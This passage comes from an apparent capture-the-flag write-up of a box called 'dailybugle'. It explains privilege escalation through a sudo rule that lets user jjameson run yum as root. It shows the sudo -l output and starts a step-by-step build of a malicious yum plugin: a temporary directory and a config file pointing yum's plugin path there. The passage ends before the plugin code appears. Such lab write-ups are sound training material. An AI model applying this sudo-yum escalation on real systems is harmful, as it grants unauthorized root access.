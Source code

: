 Checking again some **PrivEsc** ways, i found that we can execute the `yum` binary as `root`.

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Checking the [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) website i found that we can elevate privileges using the `yum` binary.

### **How Yum Plugins Work**

Yum **supports plugins**, which are Python scripts that extend its functionality. When Yum starts, it loads **enabled plugins** from a specified directory. If a user runs `sudo yum`, any plugin executed **inherits root privileges**.

This exploit **creates a malicious plugin** that runs arbitrary code (in this case, a root shell).

---

### **Step-by-Step Breakdown**

#### **1. Create a Temporary Directory**

The attack starts by creating a temporary directory (`TF`) to store the malicious plugin.

```bash
[jjameson@dailybugle tmp]$ TF=$(mktemp -d)
```

- `mktemp -d` → Creates a **random temporary directory**.

---

#### **2. Create a Custom Yum Configuration File (`x`)**

This tells Yum to **load plugins** from the attacker's temporary directory.

```bash
[jjameson@dailybugle tmp]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
```

##### **What This Does:**
